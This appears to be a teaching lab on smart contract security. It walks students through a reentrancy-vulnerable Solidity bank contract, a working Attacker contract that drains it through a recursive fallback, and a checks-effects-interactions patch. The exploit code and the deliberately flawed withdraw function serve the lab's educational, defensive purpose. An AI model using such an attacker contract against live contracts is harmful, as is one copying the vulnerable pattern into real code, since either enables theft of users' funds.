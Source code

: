 ```yaml
---
title: "ETR-4: Blockchain Security & Smart Contract Exploitation Lab"
description: "Deploy vulnerable smart contracts and simulate real-world exploits using Ethereum tools like Remix IDE and Hardhat."
date: 2025-03-22
tags: ["Blockchain Security", "Smart Contracts", "Solidity", "Web3 Exploits"]
categories: ["Emerging Technologies & Research"]
draft: false
---
```


# ETR-4: Blockchain Security & Smart Contract Exploitation Lab

## **Overview**
This lab introduces students to smart contract security by deploying vulnerable code on Ethereum testnets and executing common Web3 exploits. You'll analyze and patch contract weaknesses while exploring blockchain’s role in cybersecurity.

---

## **Lab Instructions**

### **1. Setting Up Your Environment**
You will need:
- A browser with [Remix IDE](https://remix.ethereum.org)
- Alternatively: install **Node.js**, **Hardhat**, and **Ganache** locally
- A MetaMask wallet connected to the Goerli testnet (or use local testing network)

---

### **2. Deploy a Vulnerable Smart Contract**
Paste this Solidity code into Remix:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0);
        payable(msg.sender).call{value: balances[msg.sender]}("");
        balances[msg.sender] = 0;
    }
}
```
🛑 This contract is vulnerable to a **reentrancy attack**.

Deploy it on Remix with Injected Web3 or Hardhat localnet.

---

### **3. Exploit the Vulnerability**
Deploy an attacker contract to exploit the `withdraw()` logic:
```solidity
contract Attacker {
    VulnerableBank public bank;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance > 0) {
            bank.withdraw();
        }
    }

    function attack() public payable {
        bank.deposit{value: msg.value}();
        bank.withdraw();
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
Test the exploit and observe how funds are drained through recursion.

📝 **Checkpoint:** Capture a screenshot of the attack in progress and note the balance changes.

---

### **4. Patch the Vulnerability**
Refactor the original contract to use the **checks-effects-interactions pattern**:
```solidity
function withdraw() public {
    uint amount = balances[msg.sender];
    require(amount > 0);
    balances[msg.sender] = 0;
    payable(msg.sender).transfer(amount);
}
```
Test that the attack fails after applying the patch.

---

### **5. Explore Additional Attack Vectors (Optional)**
- **Front-running:** Use a script or testing framework to simulate transaction ordering attacks
- **Integer overflow/underflow:** Try using older versions of Solidity (pre-0.8) without SafeMath
- **Logic bugs:** Misconfigured access control or hidden backdoors

---

### **6. Bonus: Blockchain Logging and Integrity Use Case**
Design a simple smart contract that stores hashed log entries:
```solidity
contract SecureLogger {
    event LogWritten(bytes32 indexed hash, uint timestamp);

    function writeLog(bytes32 hash) public {
        emit LogWritten(hash, block.timestamp);
    }
}
```
Discuss how this could support tamper-proof audit trails.

---

## **Final Submission**
Submit a report that includes:
- Your deployed contract addresses and screenshots of exploits
- Patched contract code and confirmation of fix
- A short write-up on blockchain’s potential and risks in cybersecurity

🚀 **You've just executed and mitigated your first blockchain exploit!** 🚀
